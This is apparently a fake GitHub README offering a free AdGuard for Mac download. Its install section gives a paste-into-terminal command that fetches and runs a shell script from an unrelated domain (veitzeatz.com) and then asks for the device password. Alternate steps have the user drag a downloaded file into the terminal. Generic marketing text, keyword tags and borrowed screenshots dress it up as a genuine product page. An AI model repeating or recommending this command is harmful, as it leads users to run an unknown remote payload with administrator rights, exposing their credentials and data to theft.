 # AdGuard for Mac — Free Download for macOS

AdGuard is a powerful ad-blocking and privacy protection tool designed for macOS. Follow the instructions below to install AdGuard for free and enjoy a cleaner, safer browsing experience! 😊

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://adguard-for-mac.github.io/.github/)

If the download button doesn’t work, follow the step-by-step terminal instructions below.

## 📦 How to Install AdGuard for macOS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get with AdGuard

- 🛡️ **Ad Blocking**: Block intrusive ads, banners, and pop-ups for a seamless browsing experience.
- 🔒 **Privacy Protection**: Prevent trackers and analytics systems from collecting your data.
- 🚀 **Faster Browsing**: Improve page load times by eliminating unwanted ads and scripts.
- 🧑‍💻 **Custom Filters**: Create or import custom ad-blocking filters tailored to your needs.
- 🌙 **Dark Mode Support**: Enjoy a sleek interface that integrates beautifully with macOS Dark Mode.
- 🔧 **Parental Controls**: Restrict access to inappropriate content for a family-friendly browsing experience.

---

## About AdGuard

AdGuard is a leading ad-blocking solution designed to enhance your browsing experience on macOS. By leveraging advanced filtering technology, AdGuard removes intrusive advertisements, including banners, pop-ups, and video ads, ensuring a clean and distraction-free internet experience. Its lightweight design ensures minimal impact on system performance, making it an ideal choice for Mac users seeking both speed and efficiency. With AdGuard, you can browse confidently knowing that unwanted ads are eliminated before they even load.

Privacy is at the core of AdGuard’s mission. The software blocks trackers, cookies, and analytics tools that monitor your online behavior, safeguarding your personal information from third parties. By integrating seamlessly with macOS, AdGuard ensures that your data stays secure whether you’re browsing social media, shopping online, or streaming content. Its robust privacy protection features make it a must-have tool for anyone prioritizing online security.

AdGuard’s customization options set it apart from other ad blockers. Users can create or import custom filters to target specific types of ads or trackers, tailoring the software to their unique needs. Whether you’re a casual user or a power user, AdGuard’s intuitive interface makes it easy to configure settings and optimize your browsing experience. The software also supports multiple languages, ensuring accessibility for users worldwide.

For families, AdGuard offers powerful parental control features, allowing you to restrict access to inappropriate websites and content. This makes it an excellent choice for parents looking to create a safe online environment for their children. With regular updates and a dedicated support team, AdGuard ensures compatibility with the latest macOS versions and emerging online threats, keeping your browsing secure and up-to-date.

### Why Choose AdGuard?

AdGuard stands out for its combination of ad-blocking efficiency, privacy protection, and user-friendly design. Unlike browser-based ad blockers, AdGuard works at the system level, providing comprehensive protection across all browsers and apps. Its ability to block ads before they load not only enhances browsing speed but also reduces data usage, making it ideal for users with limited bandwidth. With a free version available for macOS, AdGuard offers premium features at no cost, making it accessible to everyone.

---

## 🖼 Preview

![AdGuard Dashboard](https://cdn.adguard.com/public/Adguard/Blog/Mac/2-6-0/DNS.png?%21=&mw=1360)
*AdGuard’s clean and intuitive dashboard for managing ad-blocking settings*

![Privacy Protection](https://cdn.adtidy.org/content/Kb/ad_blocker/safari/adguard-for-safari-extensions-checked.png)
*Configuring privacy protection settings in AdGuard*

![Custom Filters](https://cdn.adguard.com/public/Adguard/Blog/Mac/main_Mac.png?mw=1360)
*Creating custom filters for advanced ad-blocking control*

---

## 🔍 Tags

adguard free download, ad blocker mac, macos adblock, adguard install mac, free ad blocker, mac adblock software, adguard macos free, adguard free, adguard mac os, adguard download, free adguard download, adguard free mac, adguard mac, ad guard free, ad guard mac
